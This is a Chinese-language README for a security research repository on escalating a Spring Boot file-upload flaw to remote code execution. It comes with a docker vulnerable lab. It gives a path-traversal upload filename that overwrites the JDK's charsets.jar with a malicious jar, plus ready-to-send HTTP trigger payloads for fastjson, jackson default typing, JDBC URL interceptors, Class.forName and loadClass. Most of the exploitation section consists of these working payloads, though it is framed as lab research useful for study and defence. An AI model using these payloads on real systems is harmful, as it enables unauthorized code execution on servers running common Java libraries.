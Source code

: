 ## spring-boot-upload-file-lead-to-rce-tricks


### docker 漏洞环境搭建：

```
docker pull landgrey/spring-boot-fat-jar-write-file-rce:1.1
docker run -d -p 18081:18081 landgrey/spring-boot-fat-jar-write-file-rce:1.1
```

**访问** http://127.0.0.1:18081/ 



### 一些利用思考的文章：

[https://landgrey.me/blog/22/](https://landgrey.me/blog/22/)



### docker 漏洞环境的功能：

- 1. 文件上传功能 (默认上传到 /tmp/ 目录，可跳目录）
- 2. 列目录功能     (列出 /tmp/ 目录下文件)



### 漏洞利用条件：

- 1. 可以获得 jdk 安装的 home 目录位置
- (可收集常见 jdk 默认安装目录位置，然后使用字典枚举尝试)

- 2. jdk 自带文件 `/jre/lib/***.jar` 没被 `Opened` 过
- (以 charsets.jar 文件举例：程序代码中不使用 `Charset.forName("GBK")` 类似的调用，默认就不会加载到 charsets.jar 文件)



### 漏洞利用步骤：

1. 选择上传文件 [charsets.jar](https://raw.githubusercontent.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks/master/release/charsets.jar)

2. 使用上传文件功能，上传时用 burpsuite 截住数据包，filename 修改为 `../../usr/lib/jvm/java-1.8-openjdk/jre/lib/charsets.jar`

3. 上传成功后使用数据包触发漏洞

4. 漏洞触发成功会在 /tmp/ 目录产生 charsets_test_[random-string].log 样式名字的文件

5. 最后使用列目录功能查看漏洞利用是否成功



### 漏洞利用场景：(5 个)

#### 1. fastjson 最新版(目前是 1.2.76)默认配置场景

正常数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{"name":"test"}
```

触发漏洞数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{
    "x":{
        "@type":"java.nio.charset.Charset",
        "val":"500"
    }
}
```



#### 2. jackson 开启 enableDefaultTyping 场景

正常数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["code.landgrey.bean.User",{"name":"zhangsan","age":20,"car":{"brand":"daben","price":1000000},"secret":"Pas@5w0rd"}]
```

触发漏洞数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["sun.nio.cs.ext.IBM33722",{"x":"y"}]
```



#### 3. jdbc url getConnection 场景

正常数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?user=root&password=123456
```

触发漏洞数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?statementInterceptors=sun.nio.cs.ext.IBM33722
```



#### 4. Class forName 场景

正常数据包：

```
GET /classForName?name=code.landgrey.bean.Car
```

触发漏洞数据包：

```
GET /classForName?name=sun.nio.cs.ext.IBM33722
```



#### 5. loadClass newInstance 场景

正常数据包：

```
GET /classLoader?name=code.landgrey.bean.User
```

触发漏洞数据包：

```
GET /classLoader?name=sun.nio.cs.ext.IBM33722
```

